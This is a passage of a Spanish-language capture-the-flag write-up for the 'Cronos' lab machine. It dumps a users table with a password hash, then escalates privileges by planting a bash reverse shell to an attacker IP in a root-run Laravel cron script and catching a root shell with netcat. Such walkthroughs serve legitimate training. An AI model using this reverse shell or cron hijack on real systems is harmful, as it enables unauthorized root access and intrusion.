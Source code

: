 ```bash
1 row in set (0.00 sec)
mysql> describe users;
+----------+-----------------+------+-----+---------+----------------+
| Field    | Type            | Null | Key | Default | Extra          |
+----------+-----------------+------+-----+---------+----------------+
| id       | int(6) unsigned | NO   | PRI | NULL    | auto_increment |
| username | varchar(30)     | NO   |     | NULL    |                |
| password | varchar(100)    | NO   |     | NULL    |                |
+----------+-----------------+------+-----+---------+----------------+
mysql> select * FROM users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
```

```bash
www-data@cronos:/home/noulis$ cat user.txt 
51d236438b333970dbba7d---------
```

Se me olvidaba la flag xD, esta vez con el usuario www-data podemos ver la flag asi que perfecto, Me paso el `pspy64s` para ver si hay tareas que se ejecutan cada cierto tiempo:

```bash
2021/08/19 19:09:01 CMD: UID=0    PID=20842  | php /var/www/laravel/artisan schedule:run 
2021/08/19 19:09:01 CMD: UID=0    PID=20841  | /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

`Pspy` me reporta que lo esta ejecutando root (UID=0) el script /var/www/laravel/artisan

Y tenemos permiso de escritura del script, asi que la escalada es pan comido

```bash
www-data@cronos:/tmp$ ls -la /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

Abrimos el script y lo modificamos al gusto, en este caso voy a otorgarme una reverse shell:

```php
#!/usr/bin/env php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.198/443 0>&1'");
/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------
|
| Composer provides a convenient, automatically generated class loader
<data>
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.13] 36300
bash: cannot set terminal process group (20922): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:~#
```
